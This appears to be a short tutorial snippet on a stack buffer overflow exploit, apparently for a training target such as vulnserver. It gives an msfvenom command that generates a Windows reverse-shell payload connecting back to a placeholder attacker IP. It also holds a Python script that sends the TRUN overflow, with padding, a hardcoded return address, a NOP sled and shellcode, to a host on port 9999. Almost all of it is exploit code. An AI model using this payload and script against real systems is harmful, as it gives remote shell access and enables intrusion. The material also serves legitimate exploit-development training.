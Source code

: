 **Generating Reverse Shell Using Hexadecimal Bad Characters**
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

#### Fuzzing EIP With Reverse Shell
```python
#!/usr/bin/python 
import sys, socket

overflow = <Generated Reverse Shell Characters>

# Padding: "\x90" * 32
shellcode = "A" * <EIP Offset> + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	s.connect(('192.168.1.35',9999)) 
	
	s.send(('TRUN /.:/' + shellcode)) 
	s.close()
except:
	print ("Error Connecting to Server") 
	sys.exit()
```

